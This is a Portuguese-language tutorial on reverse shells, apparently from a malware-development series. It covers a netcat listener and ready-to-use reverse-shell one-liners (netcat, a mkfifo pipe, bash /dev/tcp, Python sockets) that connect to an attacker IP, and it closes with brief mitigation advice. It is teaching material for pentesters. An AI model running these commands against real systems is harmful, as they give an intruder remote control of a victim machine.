

## 3. Shells Reversas

{height=400px}    

Primeiramente, vamos entender o conceito de shell reversa, pois isso é um aspecto muito importante no desenvolvimento de malware.

### O que é uma shell reversa?

Uma shell reversa, frequentemente chamada de *connect-back shell*, é um shell remoto iniciado a partir do alvo ao se conectar de volta à máquina do atacante e abrir um shell no sistema do atacante. Isso é normalmente utilizado durante o processo de exploração para obter controle sobre a máquina remota.


A shell reversa pode tirar proveito de portas de saída comuns, como `80, 443, 8080`, entre outras.

Esse tipo de shell geralmente é usado quando a máquina-alvo bloqueia conexões de entrada em certas portas por meio de um firewall. Para contornar essa restrição, especialistas em Red Team e pentesters utilizam shells reversas.

No entanto, há uma desvantagem. Isso expõe o servidor de controle do atacante, e rastros podem ser capturados por serviços de monitoramento de segurança da rede da vítima.

Os três passos para obter uma shell reversa são:  
1. O atacante explora uma vulnerabilidade em um sistema ou rede alvo com a capacidade de executar código.  
2. O atacante configura um *listener* (escutador) em sua própria máquina.  
3. O atacante injeta a shell reversa no sistema vulnerável para explorar a falha.

Outra abordagem para obter uma shell reversa em ataques reais é através da engenharia social. Por exemplo, um malware instalado em uma estação de trabalho via e-mail de phishing ou um site malicioso pode iniciar uma conexão de saída com um servidor de comando e controle (C2) e fornecer aos hackers acesso remoto.

{width="80%"}

O objetivo deste post não é explorar uma vulnerabilidade específica em um host ou rede, mas sim entender como identificar uma vulnerabilidade que possa ser usada para execução de código.

Dependendo do sistema instalado na máquina vítima e dos serviços em execução, a shell reversa pode variar. Pode ser `php, python, jsp`, entre outras.

---

### Listener

Para simplificar, neste exemplo a vítima permite conexões de saída em qualquer porta (regra padrão do firewall iptables). No nosso caso, usamos `4444` como porta de escuta. Você pode alterá-la conforme sua preferência. O *listener* pode ser qualquer programa ou utilitário que consiga abrir conexões TCP/UDP ou *sockets*. Na maioria dos casos, gosto de usar `nc` ou `netcat`.

```bash
nc -lvp 4444
```

Aqui, `-l` significa *listen* (escutar), `-v` significa *verbose* (modo detalhado) e `-p` define a porta `4444` em todas as interfaces. Você também pode adicionar `-n` para usar apenas endereços IP numéricos, sem DNS.

    

---

### Executando a shell reversa (exemplos)

Para simplificar, nos exemplos a seguir o alvo é uma máquina Linux.   
**1. Netcat**   
Executar:
```bash
nc -e /bin/sh 10.9.1.6 4444
```

Onde `10.9.1.6` é o IP da máquina do atacante e `4444` é a porta de escuta.   

{width="80%"}

**2. Netcat sem `-e`**    
Versões mais recentes do Linux possuem um netcat com `GAPING_SECURITY_HOLE` desativado, o que significa que a opção `-e` não está disponível.

Neste caso, na máquina da vítima, execute:
```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | 
/bin/sh > /tmp/p 2>&1; rm /tmp/p
```

{width="80%"}

Aqui, primeiro criamos um *named pipe* (FIFO) chamado `p` usando o comando `mkfifo`. O comando `mkfifo` cria objetos no sistema de arquivos, e aqui ele é usado como um "backpipe" para redirecionar dados de volta para a entrada do shell.

**3. Bash**   
Isso não funciona em distribuições Debian antigas.   
Executar:
```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

{width="80%"}

**4. Python**

Para criar uma shell semi-interativa usando Python, execute:
```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<LHOST>",<LPORT>));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

{width="80%"}

Mais exemplos: [Github Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

---

### Mitigação

Infelizmente, não há uma maneira de bloquear completamente shells reversas. Se você não as utiliza para administração remota, qualquer conexão desse tipo provavelmente é maliciosa. Para limitar a exploração, restrinja conectividade de saída apenas para IPs e portas específicas necessárias para serviços confiáveis. Isso pode ser feito via sandboxing ou executando o servidor em um container minimalista.
